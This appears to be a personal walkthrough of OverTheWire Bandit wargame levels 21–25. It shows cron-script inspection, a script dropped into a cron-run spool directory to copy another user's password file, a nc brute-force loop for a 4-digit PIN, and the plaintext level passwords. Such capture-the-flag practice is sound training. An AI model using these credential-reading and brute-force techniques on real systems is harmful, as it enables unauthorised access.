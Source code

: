 # Level 21->22

https://overthewire.org/wargames/bandit/bandit22.html

## Login
```sh
ssh -l bandit21 bandit.labs.overthewire.org -p 2220
gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
```

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler.

Look in /etc/cron.d/ for the configuration and see what command is being executed.
Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)

```sh
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null

bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

bandit21@bandit:~$ file /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
/tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv: ASCII text

bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

# Level 22->23

https://overthewire.org/wargames/bandit/bandit23.html

## Login
```sh
ssh -l bandit22 bandit.labs.overthewire.org -p 2220
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)


```sh
bandit22@bandit:~$ ls /etc/cron.d
atop  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget

```

```
bandit22@bandit:~$ myname=bandit23
bandit22@bandit:~$ mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
bandit22@bandit:~$ echo "${mytarget}"
8ca319486bfbbc3663ea0fbe813
bandit22@bandit:~$ cat /tmp/$mytarget
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

# Level 23->24

https://overthewire.org/wargames/bandit/bandit24.html

## Login
```sh
ssh -l bandit23 bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


```sh
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done


bandit23@bandit:~$ cat /tmp/copy.sh
cat /etc/bandit_pass/bandit24 > /tmp/out.txt
bandit23@bandit:~$ ls -al /tmp/copy.sh
-rwxrwxrwx 1 bandit23 root 45 Mar 20 12:14 /tmp/copy.sh
bandit23@bandit:~$ ls /tmp/out_dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ ls -al /tmp/copy.sh
-rwxrwxrwx 1 bandit23 root 45 Mar 20 12:14 /tmp/copy.sh
bandit23@bandit:~$ ls /tmp/out_dir
bandit23@bandit:~$ mkdir /tmp/out^C


```

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

# Level 24->25

https://overthewire.org/wargames/bandit/bandit25.html

## Login
```sh
ssh -l bandit24 bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```sh
b24_pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 
for i in {0000..9999} 
do 
  echo "${b24_pass} ${i}" >> /tmp/haha23/pass.txt 
done 

bandit24@bandit:/tmp/haha23$ cat pass.txt | nc localhost 30002 | grep pass

uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```


# Level 25->26

https://overthewire.org/wargames/bandit/bandit26.html

## Login
```sh
ssh -l bandit25 bandit.labs.overthewire.org -p 2220
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
